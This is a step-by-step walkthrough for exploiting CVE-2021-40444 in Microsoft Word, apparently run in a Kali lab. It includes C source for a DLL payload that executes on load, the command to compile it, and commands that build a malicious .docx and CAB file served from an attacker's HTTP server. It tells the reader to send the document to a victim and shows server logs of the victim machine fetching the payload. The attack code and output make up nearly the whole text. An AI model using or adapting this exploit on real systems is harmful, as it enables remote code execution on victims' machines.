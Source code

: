 Link : https://github.com/lockedbyte/CVE-2021-40444

Install requirement

	sudo apt-get install lcab
	
create a file and save as whoami.c


	#include <windows.h>

	void exec(void) {
		system("whoami >> C:\\Users\\testuser\\AppData\\Local\\Temp\\tmp.txt");
		return;
	}

	BOOL WINAPI DllMain(
		HINSTANCE hinstDLL,
		DWORD fdwReason, 
		LPVOID lpReserved )
	{
		switch( fdwReason ) 
		{ 
			case DLL_PROCESS_ATTACH:
			   exec(); 
			   break;

			case DLL_THREAD_ATTACH:
				break;

			case DLL_THREAD_DETACH:
				break;

			case DLL_PROCESS_DETACH:
				break;
		}
		return TRUE;
	}
	
Compile whoami.c , this will generate "whoami.dll"

	┌──(kali㉿kali)-[~/Desktop]
	└─$ i686-w64-mingw32-gcc -shared whoami.c -o whoami.dll


Generate malicious .docx file

	┌──(kali㉿kali)-[~/Desktop/CVE-2021-40444]
	└─$ python3 exploit.py generate whoami.dll http://192.168.200.101 
	[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
	[*] Option is generate a malicious payload...

	[ == Options == ]
			[ DLL Payload: whoami.dll
			[ HTML Exploit URL: http://192.168.200.101

	[*] Writing HTML Server URL...
	[*] Generating malicious docx file...
	  adding: [Content_Types].xml (deflated 75%)
	  adding: _rels/ (stored 0%)
	  adding: _rels/.rels (deflated 61%)
	  adding: docProps/ (stored 0%)
	  adding: docProps/app.xml (deflated 48%)
	  adding: docProps/core.xml (deflated 50%)
	  adding: word/ (stored 0%)
	  adding: word/fontTable.xml (deflated 74%)
	  adding: word/settings.xml (deflated 63%)
	  adding: word/webSettings.xml (deflated 57%)
	  adding: word/styles.xml (deflated 89%)
	  adding: word/document.xml (deflated 85%)
	  adding: word/theme/ (stored 0%)
	  adding: word/theme/theme1.xml (deflated 79%)
	  adding: word/_rels/ (stored 0%)
	  adding: word/_rels/document.xml.rels (deflated 75%)
	[*] Generating malicious CAB file...
	[*] Updating information on HTML exploit...
	[+] Malicious Word Document payload generated at: out/document.docx
	[+] Malicious CAB file generated at: srv/word.cab
	[i] You can execute now the server and then send document.docx to target


Start server on kali

	┌──(kali㉿kali)-[~/Desktop/CVE-2021-40444]
	└─$ sudo python3 exploit.py host 80                              

	[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
	[*] Option is host HTML Exploit...
	Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
	
Upload document.docx to victim make it runs. When victim runs it our server will look like

	┌──(kali㉿kali)-[~/Desktop/CVE-2021-40444]
	└─$ sudo python3 exploit.py host 80                              

	[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
	[*] Option is host HTML Exploit...
	Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "HEAD /word.html HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "GET /word.html HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "HEAD /word.html HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "HEAD /word.html HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "HEAD /word.html HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] code 501, message Unsupported method ('OPTIONS')
	192.168.200.112 - - [14/Sep/2021 12:10:24] "OPTIONS / HTTP/1.1" 501 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "GET /word.html HTTP/1.1" 304 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "HEAD /word.html HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:24] "HEAD /word.html HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:25] "GET /word.cab HTTP/1.1" 200 -
	192.168.200.112 - - [14/Sep/2021 12:10:28] "HEAD /word.html HTTP/1.1" 200 -


In "C:\Users\testuser\AppData\Local\Temp\tmp.txt" you will found whoami output

	valhalla\testuser
	valhalla\testuser
